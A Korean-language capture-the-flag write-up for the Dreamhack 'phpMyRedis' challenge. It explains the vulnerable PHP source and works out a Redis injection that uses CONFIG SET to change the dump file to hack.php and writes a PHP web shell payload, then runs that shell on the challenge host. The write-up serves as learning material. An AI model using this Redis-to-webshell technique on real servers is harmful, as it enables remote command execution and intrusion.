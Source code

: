 ```yaml
---
title: "[2025-07-25] phpMyRedis"
excerpt: "Redis injection"

categories:
  - Problem
tags:
  - [NoSQL injection, Redis]

permalink: /Problem/[2025-07-25] phpMyRedis/

toc: true
toc_sticky: true

date: 2025-07-25
last_modified_at: 2025-07-25
---
```


## 🦥 본문

- index.php

```php
<?php 
                    if(isset($_POST['cmd'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        $ret = json_encode($redis->eval($_POST['cmd']));
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                        if (!array_key_exists('history_cnt', $_SESSION)) {
                            $_SESSION['history_cnt'] = 0;
                        }
                        $_SESSION['history_'.$_SESSION['history_cnt']] = $_POST['cmd'];
                        $_SESSION['history_cnt'] += 1;

                        if(isset($_POST['save'])){
                            $path = './data/'. md5(session_id());
                            $data = '> ' . $_POST['cmd'] . PHP_EOL . str_repeat('-',50) . PHP_EOL . $ret;
                            file_put_contents($path, $data);
                            echo "saved at : <a target='_blank' href='$path'>$path</a>";
                        }
                    }
                ?>
                
<?php
                        for($i=0; $i<$_SESSION['history_cnt']; $i++){
                            echo "<li>".$_SESSION['history_'.$i]."</li>";
                        }
                    ?>
```

POST[’cmd’]

- POST 요청에 cmd 값이 포함되면 실행
- 레디스를 실행. `$POST[’cmd’]` 값을 실행 시켜서 보여줌
- 세션에 `history_cnt` 값이 없다면 0으로 할당
- `history_(history_cnt 값)` 으로 `$POST[’cmd’]` 값을 저장
    - 저장 후 `history_cnt` 값 1 증가
    - history_0, history_1… 형태로 저장

POST[’save’]

- POST 요청에 save 값이 포함되면 실행
- ./data/ 폴더 아래에 세션 ID를 해쉬 함수를 통해 해싱하여 파일명으로 파일 저장. 아래와 같이 저장
    
    ```php
    > $POST[’cmd’] 값
    -------------------------------------
    $POST[’cmd’] 명령어 실행 결과 
    ```
    
- 저장된 파일 링크 출력

- config.php

```
 <?php 
                    if(isset($_POST['option'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        if($_POST['option'] == 'GET'){
                            $ret = json_encode($redis->config($_POST['option'], $_POST['key']));
                        }elseif($_POST['option'] == 'SET'){
                            $ret = $redis->config($_POST['option'], $_POST['key'], $_POST['value']);
                        }else{
                            die('error !');
                        }                        
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                    }
                ?>
```

POST[’option’]

- POST 요청에 option 값이 포함되면 실행
- 레디스 실행.
- 사용자가 보낸 값이 GET인 경우에 `redis.config()` 실행
    - CONFIG GET `$_POST['key']` 값 실행
    - 즉 설정 중 `$_POST['key']` 값을 조회
- 사용자가 보낸 값이 SET인 경우
    - CONFIG SET `$_POST['key']` 값, `$_POST['value']` 값 실행
    - 즉 설정 중에 `$_POST['key']` 값을 키로 가지고 `$_POST['value']` 값을 value로 갖는 새로운 설정 입력
- 위의 명령어를 실행한 결과값을 출력

흠… 코드 이해하는 데만 한참 걸렸다. 지금 생각하는 큰 동작 흐름은 이러하다

1. config.php에서 CONFIG SET 을 통해서  파일 경로와 파일명을 설정한다.
    
    ```php
    CONFIG SET dir /tmp
    CONFIG SET dbfilename hack.php
    ```
    
2. index.php에서 $POST[’cmd’]와 $POST[’save’]를 통해 
    
    ```php
    SET 키 값 "<?php system($_GET['cmd']); ?>" 
    SAVE
    ```
    
    위의 코드를 실행 시키고 저장한다.
    
3. 저장된 위치에서 php를 실행시켜서 웹쉘을 실행시켜서 취약점을 탐색한다.

설정한 파일 경로에 있는 php 파일을 실행시킨다.

근데 2번과 같은 코드를 직접 입력하면 false가 출력. 즉 실행하는 데 실패한다

→ eval()의 인자는 lua 스크립트를 실행시키는 용도이므로 다른 방식으로 전달

→ `return redis.call("set", "test", "<?php system($_GET['cmd']); ?>");`

마찬가지로 return redis.call('SAVE')를 입력했는 데 false 가 출력된다

→ SAVE는 lua 스크립트로 실행이 불가하고 직접 호출해야 한다($redis->save();)

세이브만 시키면 되는데…

md5()가 세션 ID로 해싱을 하는 데 세션 ID를 조작하여 파일명을 변경할 수 있게 하면 어떨까라는 발칙한 상상을 해봤다. 하지만 md5()가 단방향 해싱이고 32자리 16진수 해싱을 하기 때문에 못한다는 gpt의 의견이 있었다.

아… Config Set에서 저장 주기를 정할 수 있던 것이었다…….

### 풀이

1. config.php에서 CONFIG SET 을 통해서  파일 경로와 파일명, 저장 주기를 설정한다.
    
    ```php
    CONFIG GET dir        // 현재 저장 경로 조회
    CONFIG SET dbfilename hack.php
    CONFIG SET save 10 1 // save 몇 초안에 몇 개가 생겨야 저장 -> 10초 내 1개 
    ```
    
2. index.php에서 $POST[’cmd’]와 $POST[’save’]를 통해 
    
    ```php
    return redis.call("set", "test", "<?php system($_GET['cmd']); ?>");
    ```
    
    위의 코드를 실행 시키고 저장한다.
    
3. 저장된 위치에서 php를 실행시켜서 웹쉘을 실행시켜서 취약점을 탐색한다.
    - http://host3.dreamhack.games:9158//hack.php?cmd=/flag